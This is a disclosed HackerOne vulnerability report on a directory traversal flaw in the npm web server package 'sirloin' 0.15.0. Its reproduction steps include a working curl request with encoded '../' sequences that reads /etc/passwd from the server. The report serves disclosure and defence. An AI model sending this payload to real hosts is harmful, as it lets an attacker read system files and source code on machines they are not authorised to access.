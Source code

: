 # [sirloin] Web Server Directory Traversal via Crafted GET Request

## Report Details
- **Report ID**: 790623
- **URL**: https://hackerone.com/reports/790623
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-02-07T16:34:25.707Z
- **Disclosed**: 2020-08-30T15:54:30.384Z

## Reporter
- **Username**: bp0lr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal in Sirloin module.
It allows an attacker to read system files via path traversal local/remote

# Module

**module name:** Sirloin
**version:** 0.15.0 (latest release build)
**npm page:** `https://www.npmjs.com/package/sirloin`

## Module Description

This high performance, extremely easy to use web server.

## Module Stats

downloads in the last year 4,129

# Vulnerability

## Vulnerability Description

Directory traversal through the url which doesn't verify the file is from the root directory path.

## Steps To Reproduce:

1 npm install sirloin
2 start the local server by typing `nodejs node_modules/sirloin/bin/sirloin.js`
3 `curl "http://localhost:3006/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"`

it will list the content of /etc/passwd

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

An attacker can leverage this vulnerability to request arbitrary files from the target host, which may include application source code or system files.
The package by default listen to 0.0.0.0 enabling external access.

## Attachments
No attachments
